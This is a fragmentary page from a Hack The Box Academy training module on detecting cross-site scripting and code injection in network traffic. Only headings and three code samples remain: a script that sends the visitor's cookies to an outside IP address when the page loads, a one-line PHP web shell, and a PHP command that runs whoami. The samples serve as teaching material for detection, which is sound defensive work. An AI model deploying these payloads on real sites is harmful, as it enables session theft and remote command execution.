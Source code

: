 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/229/section/2465
// Platform Version: V1
// Module ID: 229
// Module Name: Intermediate Network Traffic Analysis
// Module Difficulty: Easy
// Section ID: 2465
// Section Title: Cross-Site Scripting (XSS) & Code Injection Detection
// Page Title: Hack The Box - Academy
// Page Number: 14
-->

# Cross-Site Scripting (XSS) & Code Injection Detection

**Module Name:** Intermediate Network Traffic Analysis **Page Number:** 14

#### 

#### INTERMEDIATE NETWORK TRAFFIC ANALYSIS

# Cross-Site Scripting (XSS) & Code Injection Detection

``` javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```

``` php
<?php system($_GET['cmd']); ?>
```

``` php
<?php echo `whoami` ?>
```

#### Preventing XSS and Code Injection

# 

# 

#### Questions

####